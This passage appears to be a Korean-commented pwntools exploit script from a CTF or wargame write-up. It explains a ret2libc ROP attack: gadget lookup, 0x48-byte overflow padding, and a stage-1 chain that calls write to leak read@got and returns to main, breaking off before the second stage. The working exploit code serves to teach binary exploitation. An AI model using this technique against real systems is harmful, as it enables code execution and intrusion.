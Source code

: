``` python
이렇게 실제 런타임 주소들을 계산할 수 있음.
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh = list(libc.search(b"/bin/sh"))[0]

'''
ROP 객체 r을 이용하여 가젯을 찾을 수 있음.
ROP 가젯 = 프로그램 코드 안의 짧은 명령어 조각
pop rdi; ret -> 64비트에서 첫 번째 인자(RDI 레지스터)에 값을 세팅할 때 사용
pop rsi; pop r15; ret -> 두 번째 인자(RSI) 세팅할 때 사용 (R15는 덤으로 버림)
이렇게 찾은 가젯주소를 변수에 저장해 두고, 페이로드에서인자 세팅시 활용함
'''
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

# Stage 1
'''
buf의 위치는 rbp-0x40 이므로 + SFP(8byte) -> 페이로드 0x48
'''
payload:bytes = b'A' * 0x48

# write(1, read@got, 8)
'''
여기서의 목적은 read 함수의 실제 주소를 libc에서 leak 하는 것.
write(int fd, woid *buf, size_t n) 호출 형태로 ROP 체인 구성.

순서별 해석:
pop rdi; ret → rdi = 1 (stdout)
pop rsi; pop r15; ret → rsi = read_got, r15 = dummy
(즉 write의 두 번째 인자 = read@got)
p64(8) → write의 세 번째 인자 = 8 (8바이트 출력)
write@plt → 결국 write(1, read@got, 8) 실행됨
→ 결과: read@got 에 저장된 진짜 libc의 read 함수 주소(8바이트)를 화면(stdout)에 출력.

'''
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)

# return to main
'''
write 호출이 끝나면 프로그램이 종료되지 않고 다시 main() 함수로 돌아가게 만듦.
이유: 1차 페이로드에서 libc 주소 leak 한 뒤, 2차 페이로드를 다시 주입하기 위함.
'''
payload += p64(main)

'''
완성된 1차 페이로드를 대상 프로그램에 전송.
C 프로그램에서 read() 함수가 입력을 받아오는 부분에 그대로 들어가게 됨.
'''
p.send(payload)

'''
p.recvuntil(b'A' * 0x40) -> ROP로 호출한 write 이전에 stdout으로 흘러나온 buf 패딩(A*0x40)을 스킵하기 위함.

이유: stdout으로 출력될 때 페이로드 패딩(A * 0x48) 중 일부가 먼저 나올 수 있음
실제로 프로그램이 write 호출 직전에 버퍼를 읽어서 스택에 채우고, write 함수가 실행되면서 stdout으로 스택 상의 일부 데이터를 먼저 찍어낼 수 있음.
b'A' * 0x40 까지 날아온 데이터는 패딩부분이므로 이를 먼저 흘려보내고 그 뒤에 나오는 read@got실제 주소 8바이트만 받아야 함.
죽, recvuntil(b'A' * 0x40)은 패딩(A들)을 스킵하고 나머지 데이터를 읽기 위해 사용.

read@got는 8바이트지만, 64비트 환경에서 상위 2바이트가 0인 경우가 많다. -> 그냥 6바이트만 recv
u64() 는 항상 8바이트 필요
```